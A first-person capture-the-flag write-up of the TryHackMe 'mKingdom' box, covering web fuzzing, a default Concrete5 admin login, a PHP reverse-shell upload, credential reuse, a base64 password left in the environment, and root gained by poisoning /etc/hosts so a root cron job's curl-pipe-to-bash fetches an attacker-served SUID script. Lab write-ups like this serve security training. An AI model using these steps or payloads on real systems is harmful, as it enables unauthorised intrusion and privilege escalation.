

<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux, **Difficulty:** Easy, **Host:** `mkingdom.thm` (web on :85)

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Web on port **85** → **Concrete5** CMS. Login `admin:password`.
2. In the admin panel, add `php` to the allowed upload extensions → upload `reverse.php` → shell as **www-data**.
3. `app/castle/application/config/database.php` leaks `toad:toadisthebest` → `su toad`.
4. `toad`'s environment contains a base64 var `PWD_token` → decode → password for **mario** → `su mario`.
5. `pspy` shows a root job that pulls a file and appends it to a world-writable log/script under `application/`, poison it → root.

</div>

---

## Full Walkthrough

With the box only exposing a web server on the non-standard port `85`, my first move was to map out its content structure before doing anything else, so I ran a directory and file brute force against it with a broad extension list to catch anything a plain path fuzz might have missed.

```bash
ffuf -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt -c -u http://mkingdom.thm:85/FUZZ -e html,php,php5,sh,bin,py,war,aspx,dox,lst,sqlite,txt,js,java,jar,htm --fc 403
```

```bash
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://mkingdom.thm:85/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt
 :: Extensions       : html php php5 sh bin py war aspx dox lst sqlite txt js java jar htm 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response status: 403
________________________________________________

app                     [Status: 301, Size: 312, Words: 20, Lines: 10]
.                       [Status: 200, Size: 647, Words: 147, Lines: 34]
:: Progress: [299670/731119] :: Job [1/1] :: 270 req/sec :: Duration: [0:18:29] :: Errors: 153 ::^C^C^C^C^C^C
^C
[WARN] Caught keyboard interrupt (Ctrl-C)
```

That fuzz surfaced an `app` directory, which turned out to be running the Concrete5 CMS. Since it presented a standard admin login page, I threw a quick credential brute force at it before assuming I would need to find an exploit, and it paid off immediately: `admin:password` got me straight in, which is a good reminder that weak or default credentials are still worth testing first on any CMS login.




Once inside the admin panel, I went looking for a way to turn that access into code execution, and Concrete5's file manager settings gave me exactly that: an option to control which file extensions are permitted for upload. Adding `php` to that allowlist meant I could upload a PHP reverse shell directly through a legitimate admin feature instead of needing a separate upload-bypass exploit. I dropped a `reverse.php` payload in, browsed to it, and landed a shell as `www-data`. From there I wanted to get a full picture of the box before hunting for privilege escalation specifically, so I kicked off automated enumeration to see what stood out.


```bash
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2
  [1] af_packet
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] get_rekt
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010
```

The exploit suggester flagged a handful of older kernel CVEs, but none of them felt like the intended path on a box built around a CMS, so I kept working through the rest of the enumeration output rather than committing to a kernel exploit against an unfamiliar build. The section that actually paid off was linpeas grepping through PHP configuration files for anything that looked like a stored credential, a very common place for CMS platforms to leave a database password sitting in plaintext.

```bash

╔══════════╣ Searching passwords in config PHP files
            'password' => 'toadisthebest',
const USER_CHANGE_PASSWORD_URL_LIFETIME = 7200;
const USER_PASSWORD_RESET = 24;
const UVTYPE_CHANGE_PASSWORD = 1;
            'password_credentials' => t('Password Credentials'),
```

That match pointed me straight at Concrete5's own database configuration file, and reading it directly confirmed both a plaintext database password and the username it belonged to, sitting in `/var/www/html/app/castle/application/config`.

```bash
(remote) www-data@mkingdom.thm:/var/www/html/app/castle/application/config$ cat database.php 
<?php

return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
            'username' => 'toad',
            'password' => 'toadisthebest',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
];
(remote) www-data@mkingdom.thm:/var/www/html/app/castle/application/config$ mysql -u toad -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 9276
Server version: 5.5.62-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

That credential was for the local MySQL account, but database passwords get reused as system account passwords often enough that it was worth testing directly against `su`, and sure enough, `toad:toadisthebest` worked to switch users. With a new identity on the box, I re-ran linpeas from this vantage point to see whether `toad` had visibility into anything `www-data` did not.

```bash
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#script-binaries-in-path
/usr/bin/amuFormat.sh
/usr/bin/gettext.sh

╔══════════╣ Executable files potentially added by user (limit 70)
2024-01-29+19:28:30.8682496990 /etc/rc.local.vmimport

╔══════════╣ Unexpected in root
/vmlinuz.old
/initrd.img
/vmlinuz
/initrd.img.old

╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/home/toad/lin.log
/var/log/syslog
/var/log/auth.log
/var/log/up.log

logrotate 3.8.7
```

```bash
╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d

═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ No
═╣ Credentials in fstab/mtab? ........... /etc/mtab:gvfsd-fuse /run/user/112/gvfs fuse.gvfsd-fuse rw,nosuid,nodev,user=lightdm 0 0
═╣ Can I read shadow files? ............. No
═╣ Can I read shadow plists? ............ No
═╣ Can I write shadow plists? ........... No
═╣ Can I read opasswd file? ............. No
═╣ Can I write in network-scripts? ...... No
═╣ Can I read root folder? .............. No
```

```bash
╔══════════╣ Analyzing FTP Files (limit 70)
-rw-r--r-- 1 root root 737 May 16  2013 /etc/init/vsftpd.conf
-rw-r--r-- 1 root root 5651 Nov 28  2023 /etc/vsftpd.conf
anonymous_enable
local_enable
#write_enable=YES
#anon_upload_enable=YES
#anon_mkdir_write_enable=YES
#chown_uploads=YES
#chown_username=whoever
```

```bash
╔══════════╣ Analyzing MariaDB Files (limit 70)

-rw------- 1 root root 333 Nov 24  2023 /etc/mysql/debian.cnf
```

Most of that second linpeas pass came back clean, no writable passwd, no readable shadow, nothing obviously exploitable in the FTP or MariaDB configuration. But I make a habit of checking the environment directly as well, since linpeas does not always surface every custom variable a previous session might have left behind, and this time it was worth the extra look.

```bash
(remote) toad@mkingdom.thm:/home/toad$ env
APACHE_PID_FILE=/var/run/apache2/apache2.pid
XDG_SESSION_ID=c2
SHELL=/bin/bash
APACHE_RUN_USER=www-data
TERM=xterm-256color
OLDPWD=/home
USER=toad
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:
PWD_token=aWthVGVOVEFOdEVTCg==
MAIL=/var/mail/toad
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
APACHE_LOG_DIR=/var/log/apache2
PWD=/home/toad
LANG=en_US.UTF-8
APACHE_RUN_GROUP=www-data
PS1=$(command printf "\[\033[01;31m\](remote)\[\033[0m\] \[\033[01;33m\]$(whoami)@$(hostname)\[\033[0m\]:\[\033[1;36m\]$PWD\[\033[0m\]\$ ")
HISTCONTROL=ignoreboth
HOME=/home/toad
SHLVL=3
LOGNAME=toad
LESSOPEN=| /usr/bin/lesspipe %s
XDG_RUNTIME_DIR=/run/user/1002
APACHE_RUN_DIR=/var/run/apache2
APACHE_LOCK_DIR=/var/lock/apache2
LESSCLOSE=/usr/bin/lesspipe %s %s
_=/usr/bin/env
```

Sitting right there among the environment variables was `PWD_token`, an oddly named value that decoded cleanly from base64 into what turned out to be a password for the `mario` account. Whoever set this up had clearly meant it as a quick, temporary way to pass a credential along, and it worked exactly as well for me as it presumably did for them: `su mario` succeeded without any trouble.

With a second lateral move made, I turned to `pspy` to watch what root-owned processes were doing in the background, since neither `toad` nor `mario` had any `sudo` rights worth exploring directly. That observation paid off almost immediately: I caught a cron job running as root that curls a file down from the local web application and pipes it into a log under a path I already knew I had write access to. If I could control the content being fetched, I could get root to execute arbitrary code on my behalf.

Before assuming I could just overwrite the script directly, I checked permissions across that application directory to see exactly what I could and could not touch.

```bash
(remote) mario@mkingdom.thm:/var/www/html/app/castle/application$ ls -aril
total 80
2624498 drwxrwxr-x  2 root root 4096 Oct  2  2019 views
2239484 drwxrwxr-x  2 root root 4096 Oct  2  2019 tools
2624499 drwxrwxr-x  2 root root 4096 Oct  2  2019 themes
2624501 drwxrwxr-x  2 root root 4096 Oct  2  2019 src
2363908 drwxrwxr-x  2 root root 4096 Oct  2  2019 single_pages
2494668 drwxrwxr-x  2 root root 4096 Oct  2  2019 page_templates
2363906 drwxrwxr-x  2 root root 4096 Oct  2  2019 mail
2363907 drwxrwxr-x  2 root root 4096 Oct  2  2019 languages
2494671 drwxrwxr-x  2 root root 4096 Oct  2  2019 jobs
2239485 -rw-rw-r--  1 root root    0 Oct  2  2019 index.html
2494669 drwxrwxrwx 34 root root 4096 Jul 24 21:32 files
2494667 drwxrwxr-x  2 root root 4096 Oct  2  2019 elements
2239490 -rw-r--r--  1 root root  129 Nov 29  2023 counter.sh
2624497 drwxrwxr-x  2 root root 4096 Oct  2  2019 controllers
2363905 drwxrwxrwx  4 root root 4096 Nov 29  2023 config
2363901 drwxrwxr-x  2 root root 4096 Oct  2  2019 bootstrap
2239483 drwxrwxr-x  2 root root 4096 Oct  2  2019 blocks
2624500 drwxrwxr-x  2 root root 4096 Oct  2  2019 authentication
2494666 drwxrwxr-x  2 root root 4096 Oct  2  2019 attributes
2229569 drwxrwxr-x  6 root root 4096 Oct  2  2019 ..
2239482 drwxrwxr-x 19 root root 4096 Nov 29  2023 .


```


`counter.sh` itself turned out to be owned by root and not writable by me, so overwriting it directly was off the table. But the cron job reaches it through the `mkingdom.thm` hostname rather than a hardcoded loopback address, which gave me a different angle: if I could control how that hostname resolves, I could make root's own request fetch a file from somewhere I do control instead.

```bash
(remote) mario@mkingdom.thm:/var/www/html/app/castle$ cat /etc/hosts
127.0.0.1	localhost
10.6.59.97	mkingdom.thm
127.0.0.1	backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

That confirmed the cron job resolves `mkingdom.thm` through this local file rather than any external DNS, and since I had write access to it, I edited the entry to point the domain at my own attacking machine's VPN address instead of the box itself. That single change meant the next time root's cron job fired its `curl` request, it would reach out across the network to a server I controlled rather than fetching the legitimate local script.

All I needed on the serving end was something simple: a script that grants the SUID bit to `/bin/bash` the moment root executes it, which is enough on its own to hand me a permanent path to a root shell afterward.

```bash
#!/bin/bash

chmod u+s /bin/bash
```

With the hosts entry poisoned and the payload named to match exactly what the cron job requests, all that was left was to wait for the next scheduled run and watch `pspy` confirm it executed as root.

```bash
2024/07/24 22:52:01 CMD: UID=0    PID=11395  | bash 
2024/07/24 22:52:01 CMD: UID=0    PID=11394  | curl mkingdom.thm:85/app/castle/application/counter.sh 
2024/07/24 22:52:01 CMD: UID=0    PID=11393  | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /va
r/log/up.log  
2024/07/24 22:52:01 CMD: UID=0    PID=11392  | CRON 
```

Sure enough, my listener on the attacking machine logged an incoming request straight from the target box for that exact file, confirming the poisoned hosts entry had worked and root had just fetched my malicious script instead of the legitimate one.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/mkingdom] - [Wed Jul 24, 22:55]
└─[$]> sudo python3 -m http.server 85
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
10.10.61.66 - - [24/Jul/2024 22:56:01] "GET /app/castle/application/counter.sh HTTP/1.1" 200 -
```

Checking back on the target confirmed the payoff: `/bin/bash` now carried the setuid bit, owned by root, which meant running it directly would drop me into a root shell any time I wanted from that point forward.

```bash

1310726 -rwsr-xr-x 1 root root 1021112 May 16  2017 /bin/bash
```
